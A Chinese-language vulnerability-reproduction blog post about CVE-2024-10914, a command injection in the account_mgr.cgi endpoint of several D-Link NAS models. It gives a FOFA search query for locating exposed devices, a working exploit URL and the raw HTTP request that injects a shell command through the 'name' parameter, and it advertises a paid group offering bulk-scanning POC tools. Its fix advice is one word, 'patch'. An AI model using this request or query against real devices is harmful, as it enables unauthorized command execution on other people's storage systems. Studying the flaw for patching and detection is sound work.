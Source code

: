 #  D-Link多款产品account_mgr.cgi接口存在远程命令执行漏洞CVE-2024-10914 附POC   
 南风漏洞复现文库   2024-11-12 22:17  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. D-Link简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
D-Link多款产品  
## 2.漏洞描述  
  
D-Link DNS-320等都是中国友讯（D-Link）公司的一款NAS（网络附属存储）设备。D-Link多款产品存在安全漏洞，该漏洞源于对参数name的错误操作会导致操作系统命令注入。以下产品及版本受到影响：D-Link DNS-320、DNS-320LW、DNS-325和DNS-340L 20241028版本及之前版本。  
  
CVE编号:CVE-2024-10914  
  
CNNVD编号:CNNVD-202411-670  
  
CNVD编号:  
## 3.影响版本  
  
D-Link DNS-320、DNS-320LW、DNS-325和DNS-340L 20241028版本及之前版本。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3avF4qmUvcmPofVVghc8hTe3Zqlwlsxu7XmoIb0XwG6iauFq7GgeLpzHicJsRpK6a1ibkugyRgs1eJuQ/640?wx_fmt=png&from=appmsg "null")  
  
D-Link多款产品account_mgr.cgi接口存在远程命令执行漏洞  
## 4.fofa查询语句  
  
app="D_Link-DNS-ShareCenter"  
## 5.漏洞复现  
  
漏洞链接：http://xx.xx.xx.xx/cgi-bin/account_mgr.cgi?cmd=cgi_user_add&name=%27;id;%27  
  
漏洞数据包：  
```
GET /cgi-bin/account_mgr.cgi?cmd=cgi_user_add&name=%27;id;%27 HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3avF4qmUvcmPofVVghc8hTeekYfVo4KViarNpcJunYuPg6yON6LgiaBjaSlOIsLlGh4nknQ13pell0g/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
2: 免登录，免费fofa查询。  
3: 更新其他实用网络安全工具项目。  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3avF4qmUvcmPofVVghc8hTeyFzFEb79Qic2SeUjzjaHhicjlVOwmghUh5GdStKD9jxSUcajoRH7MJrg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3avF4qmUvcmPofVVghc8hTebic6LulUpgsRPrfHb6EApfGRkVhWllFTGQFcDkrLJeC9KbZtpQOwApw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3avF4qmUvcmPofVVghc8hTeskyF2vr8DrJt46qcXBnXtHfnxHbAKUHnJDFmibzia2QeUpPlEA7zpYeA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3avF4qmUvcmPofVVghc8hTetILlRJ6yEF7BZScB2asgwQgsCLlCO5onibapbGrhReLeRlRHFdX6DXg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3avF4qmUvcmPofVVghc8hTe1icc061YynZrlHZpxxTldTGFRiaEmL8X4UrNuibqeLJUD11iaxicg0ILPPQ/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
打补丁  
## 8.往期回顾  
  
[用友-U8-Cloud service/approveservlet接口存在SQL注入漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487750&idx=1&sn=fe3f4129970c2a296fce00901f6135f0&chksm=974b9c01a03c151788f57f9151170918d779defafc4d4c1e817c6857ffcc6462767cc3ca4a8c&scene=21#wechat_redirect)  
  
  
[苹果IOS端IPA签名工具Sign.php接口存在任意命令执行漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487736&idx=1&sn=4865fc23b95914c8edf9a3f840699298&chksm=974b9dffa03c14e9dd6a87bd098a3462d4b0f201de69d6a2cbf2eaf621c301577746ce57a7ff&scene=21#wechat_redirect)  
  
  
  
  
